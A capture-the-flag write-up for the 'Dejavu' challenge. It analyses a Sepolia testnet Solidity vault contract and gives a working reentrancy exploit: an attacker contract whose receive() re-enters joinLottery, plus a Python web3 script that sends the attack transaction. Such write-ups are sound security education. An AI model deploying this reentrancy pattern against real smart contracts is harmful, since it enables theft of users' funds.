


### Dejavu


The landing page of the webapp hints at a crypto website with the Connect Wallet button. The page's source code also hints at it being EVM based with the use of ethersjs


Opening a wallet provider and connecting to the dapp reveals that it's a sepolia ethereum dapp. 

Clicking `Buy Flag` reveals the user must own 1e20 Haxor token, which costs 200 ETH



Searching for a the EVM wallet address format reveals a contract address (ca).


Checking the ca on [etherscan](https://sepolia.etherscan.io/address/0x1dd48718c62f2249c25b85c691cabe2f4d5d9cba) reveals the contract source code.

```solidity
// Stripped to only important sections of contract source code
pragma solidity ^0.8.25;

contract Vault {
    address private owner;
    mapping (address => uint256) private userBalances;
    mapping (address => bool) public willWin;
    mapping (address => address) private linkWallet;
    uint8 public TOKEN_PRICE = 2 wei;
    string public constant name = "Haxor";

    modifier noReentrant() {
      //Safe norentrancey modifier
      }

    function linkPayoutAddress(address newWallet) external payable {
        linkWallet[msg.sender] = newWallet;
    }

    function buy(uint256 _tokenToBuy) external payable {
        require(
            msg.value == _tokenToBuy * TOKEN_PRICE, 
            string(abi.encodePacked("error ", _tokenToBuy, msg.value))
        );
        userBalances[msg.sender] += _tokenToBuy;
        willWin[msg.sender] = false;
    }

    function sellall() external noReentrant {
        uint256 etherToTransfer = userBalances[msg.sender] * TOKEN_PRICE;
        require(etherToTransfer >= 0, "Insufficient balance");
        require(address(this).balance >= etherToTransfer, "Not enough eth on contract");
        willWin[msg.sender] = true; // only allow user win when they have 0 tokens lol
        (bool success, ) = msg.sender.call{value: etherToTransfer}(""); // this triggers the receive() function on exploit contract
        require(success, "Failed to send Ether");
        userBalances[msg.sender] = 0; // User haxor token balance is only set to 0 AFTER an external call has been mmade
    }

    function joinLottery() external {
        require(userBalances[msg.sender] >= 0, "Insufficient balance");
        require(linkWallet[msg.sender] != address(0), "Payout address not set");
        userBalances[msg.sender] = 0;
        if (willWin[msg.sender] == false){
        } else {
            userBalances[address(linkWallet[msg.sender])] += 100000000000000000000;
        }
    }
}
```
A smart contract that allows wallets buy tokens (at a fixed 2Wei price), sell tokens, and join the lottery. 

The Important things to note from the code are:
1. While the contract might seem vulnerable to an integer overflow attack via the unsafe multiplication in the buy function, it should be noted that for solidity 0.8.0 and above the [arithmetic operations revert on underflow and overflow](https://docs.soliditylang.org/en/v0.8.25/080-breaking-changes.html)
2. The contract's lottery is rigged to make the player lose by setting `willWin` value to `false` when user purchases tokens and to `true` after user has lost all their tokens
3. Winning the lottery adds `1e20` to the user balance
3. An external call is made with `(bool success, ) = msg.sender.call{value: etherToTransfer}("")`
4. `willWin` is set to true before the external call is made
5. The `sellall` function in not vulnerable to reentrancy attacks due to the `noReentrant` modifier
6. The `joinLottery` is vulnerable to reentrancy 

A reentrancy attack in Solidity occurs when a contract calls back into itself or another contract before completing its initial execution, potentially allowing unexpected behavior or manipulation of state variables.

An exploit contract is quickly spun up using [remix-ide](https://remix.ethereum.org/)

```solidity
pragma solidity ^0.8.25;

interface IEtherVault {
    function linkPayoutAddress(address newWallet) external payable;
    function buy(uint256 _tokenToBuy) external payable;
    function sellall() external;
    function joinLottery() external;
} 

contract Attacker{
    IEtherVault public immutable etherVault;
    constructor(IEtherVault _etherVault) {
        etherVault = _etherVault; // vault ca at defined at contract deployment
    }

    function attackInit(address payoutAddress) external payable { 
        require(msg.value >= 2 wei, "Too low"); // Each haxor token costs 2 wei
        etherVault.linkPayoutAddress(payoutAddress); // Set attacker wallet as payout address
        etherVault.buy{value: 2 wei}(uint256(1)); // Buy 1 haxor token
        etherVault.sellall(); // Sell all haxor token
    }
    receive() external payable { // This is function triggered by (bool success, ) = msg.sender.call{value: etherToTransfer}("") in vault contract
        etherVault.joinLottery(); // Join the lottery. Note that willWin[msg.sender] has already been set to true 
    }
}
```
To execute the contract functions, a quick python3 script is created

```python
contract_abi = [] # ABI of exploit contract from remix
from web3 import HTTPProvider, Web3

CHAIN_ID = 11155111 #sepolia
ALCHEMY_URL = "" #Sepolia Ethereum Provdier Url
w3: Web3 = Web3(HTTPProvider(ALCHEMY_URL))
user_wallet = w3.eth.account.from_key("") # user wallet private keys
CONTRACT_ADDRESS = Web3.to_checksum_address("") # Exploit contract address 0xabb0739ce308f2faeae23a6e70c3bce7090a709a
TOKEN_CONTRACT = w3.eth.contract(address=CONTRACT_ADDRESS, abi=contract_abi)
MAX_FEE = int(w3.eth.gas_price * 1.1)
AMT_TO_SPEND = 3 # Must be > 2wei

raw_data = TOKEN_CONTRACT.encodeABI("attackInit", args=[user_wallet.address]) # user wallet as payoutAddress
tx = {
            "to": w3.to_checksum_address(CONTRACT_ADDRESS),
            "value": AMT_TO_SPEND,
            "gas": 210_000,
            "maxFeePerGas":MAX_FEE,
            "maxPriorityFeePerGas": Web3.to_wei(0.0005, "gwei"),
            "nonce": w3.eth.get_transaction_count(user_wallet.address),
            "chainId": CHAIN_ID,
            "data": raw_data,
            "type": 2,
        }
signed_txn = w3.eth.account.sign_transaction(tx, user_wallet._private_key)
txn_hash = w3.eth.send_raw_transaction(signed_txn.rawTransaction)
print(w3.toHex(txn_hash))
```

After confirming the transaction and refreshing the webapp, clicking the `Buy Flag` button reveals the flag

